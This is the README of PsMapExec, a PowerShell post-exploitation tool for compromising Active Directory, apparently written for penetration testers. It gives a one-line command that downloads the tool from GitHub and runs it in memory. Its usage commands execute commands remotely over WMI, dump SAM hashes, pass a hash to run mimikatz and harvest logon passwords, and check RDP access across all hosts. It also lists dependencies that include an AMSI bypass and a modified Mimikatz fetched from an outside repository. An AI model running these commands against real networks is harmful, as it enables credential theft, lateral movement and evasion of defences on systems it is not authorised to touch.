 # PsMapExec

More detailed documentation on how to use PsMapExec is available on Gitbook: https://viperone.gitbook.io/pentest-everything/psmapexec

## What is PsMapExec

A PowerShell tool heavily inspired by the popular tool CrackMapExec. Far too often I find myself on engagements without access to Linux in order to make use of CrackMapExec. 

PsMapExec is used as a post-exploitation tool to assess and compromise an Active Directory environment. 

## What methods does it support

Currently supported methods (Protocols)

* PsExec
* RDP
* SMB Signing
* WinRM
* WMI

Planned methods

* MSSQL (In testing)
* IPMI
* SNMP
* FTP
* SSH
## Quick Start
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
\
Execute some commands over WMI
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WMI -Command "net user"
```
\
Check RDP access across all systems
```
PsMapExec -Targets All -Username Admin -Password Pass -Method RDP
```
\
Dump SAM over WinRM and Parse the results
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WinRM -Module SAM -Option Parse
```
\
Authenticate over WMI with a hash and execute mimikatz
```
PsMapExec -Targets Workstations -Username Admin -Hash [Hash] -Method WMI -Module LogonPasswords -Option Parse -ShowOutput
```
\
Check SMB Signing on all domain systems
```
PsMapExec -Targets All -GenRelayList
```
## Detailed Usage
* https://viperone.gitbook.io/pentest-everything/psmapexec
* https://viperone.gitbook.io/pentest-everything/psmapexec/methods
* https://viperone.gitbook.io/pentest-everything/psmapexec/modules

## Aknowledgements
## Dependencies
PsMapExec has some dependencies that need to be pulled from outside the script itself in order to function.
Primarily these are:
  * DumpSAM
  * Kirby (PowerShell based Kerberos ticket dump)
  * Invoke-Pandemonium (Slightly modified Mimikatz)
  * Invoke-Mongoose (AMSI Bypass)

Currently, they are pulled from a seperate GitHub repository: https://github.com/The-Viper-One/PME-Scripts \
If you are working within an environment that has no external access or GitHub is blocked by a firewall you will need to clone the scripts in the respository onto the system from which PsMapExec is running from.

PsMapExec does not currently host a HTTP server for these so you will need to use something like HFS: https://www.rejetto.com/hfs/?f=dl
PsMapExec supports pointing to a locally or alternatively hosted server for the script dependencies.
```
PsMapExec -Targets All -Username [User] -Password [Pass] -LocalFileServer [IP]
```
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/499ce08a-153f-434c-ae80-9df24afbe5e4)

## Support me
<a href="https://www.buymeacoffee.com/ViperOne" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


## Example Images

### Command Execution
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/e770e2b3-d441-4094-8a14-94848a3b6b74)

### SAM Dump
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/f00a5468-ee99-4db3-82f5-e59223ecf219)


### Mimikatz
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/a576b9c8-703e-423e-8041-44daca6cf335)

### RDP Access
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/ba875e2f-5898-4c10-a33c-7bcb9ef3a2f5)



